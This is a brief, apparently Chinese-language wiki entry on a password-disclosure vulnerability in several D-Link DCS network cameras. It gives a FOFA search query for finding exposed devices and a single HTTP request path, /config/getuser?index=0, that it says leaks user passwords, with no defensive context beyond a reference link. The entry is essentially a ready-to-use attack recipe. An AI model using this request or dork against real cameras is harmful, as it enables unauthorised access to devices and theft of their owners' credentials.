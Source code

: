 <languages  />

<translate>

漏洞影響
--------

</translate>

    DCS-2530L
    DCS-2670L
    DCS-4603
    DCS-4622

FOFA
----

    app="D_Link-DCS-2530L"

<translate>

密碼泄漏漏洞
------------

</translate>

    http://xxx.xxx.xxx.xxx/config/getuser?index=0

<translate>

參考
----

</translate> <https://mp.weixin.qq.com/s/b7jyA5sylkDNauQbwZKvBg>